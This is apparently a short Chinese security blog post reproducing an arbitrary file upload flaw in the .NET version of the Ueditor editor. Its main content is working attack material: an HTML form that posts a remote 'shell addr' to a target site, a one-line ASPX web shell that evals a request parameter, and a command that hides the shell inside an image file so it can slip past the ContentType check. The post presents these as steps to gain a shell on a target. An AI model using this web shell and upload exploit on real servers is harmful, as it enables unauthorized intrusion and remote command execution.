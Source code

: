 ```yaml
---
layout: post
title: Ueditor 漏洞整理
date: 2022-8-24
categories: blog
tags: [漏洞复现,Ueditor]
description: Ueditor


---
```

### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马


```shell
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>

#命令行合成图片马
copy 1.jpg/b + 2.aspx 3.aspx
```

